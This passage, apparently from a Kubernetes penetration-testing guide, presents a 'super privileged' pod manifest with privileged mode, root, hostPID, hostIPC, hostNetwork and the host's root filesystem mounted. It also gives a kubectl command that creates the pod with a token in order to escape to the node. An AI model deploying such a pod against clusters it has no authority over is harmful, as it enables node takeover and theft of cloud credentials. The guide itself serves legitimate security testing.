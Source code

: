 The following definition gives all the privileges a container can have:

* **Privileged access** (disabling protections and setting capabilities)
* **Disable namespaces hostIPC and hostPid** that can help to escalate privileges
* **Disable hostNetwork** namespace, giving access to steal nodes cloud privileges and better access to networks
* **Mount hosts / inside the container**

{% code title="super_privs.yaml" %}
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: ubuntu
  labels:
    app: ubuntu
spec:
  # Uncomment and specify a specific node you want to debug
  # nodeName: <insert-node-name-here>
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "3600" # adjust this as needed -- use only as long as you need
    imagePullPolicy: IfNotPresent
    name: ubuntu
    securityContext:
      allowPrivilegeEscalation: true
      privileged: true
      #capabilities:
      #  add: ["NET_ADMIN", "SYS_ADMIN"] # add the capabilities you need https://man7.org/linux/man-pages/man7/capabilities.7.html
      runAsUser: 0 # run as root (or any other user)
    volumeMounts:
    - mountPath: /host
      name: host-volume
  restartPolicy: Never # we want to be intentional about running this pod
  hostIPC: true # Use the host's ipc namespace https://www.man7.org/linux/man-pages/man7/ipc_namespaces.7.html
  hostNetwork: true # Use the host's network namespace https://www.man7.org/linux/man-pages/man7/network_namespaces.7.html
  hostPID: true # Use the host's pid namespace https://man7.org/linux/man-pages/man7/pid_namespaces.7.htmlpe_
  volumes:
  - name: host-volume
    hostPath:
      path: /
```
{% endcode %}

Create the pod with:

```bash
kubectl --token $token create -f mount_root.yaml
```
